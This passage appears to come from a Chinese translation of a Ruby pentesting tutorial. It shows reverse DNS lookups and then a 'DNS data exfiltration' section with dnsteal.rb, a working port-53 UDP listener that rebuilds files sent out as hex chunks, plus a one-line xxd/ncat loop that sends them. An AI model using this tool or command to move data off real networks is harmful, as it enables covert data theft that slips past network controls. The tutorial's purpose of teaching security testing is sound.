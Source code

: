 或使用 `Resolv.getaddress` 只获取一个地址

### 反向 DNS 查找（IP 到主机）

```
require 'resolv'
Resolv.getnames "23.23.122.48" 
```

返回所有主机名的数组，如果 PTR 被分配

```
["ec2-174-129-41-187.compute-1.amazonaws.com"] 
```

或使用 `Resolv.name` 只获取一个名称

## DNS 数据外泄

DNS 外部连接通常允许在本地网络中使用，这是使用 DNS 将数据传输到外部服务器的主要优势。

**dnsteal.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudo ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''

  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<][a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s

    # Write received data to file
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end

    data_old = data 
  end

rescue Exception => e
  puts e
end 
```
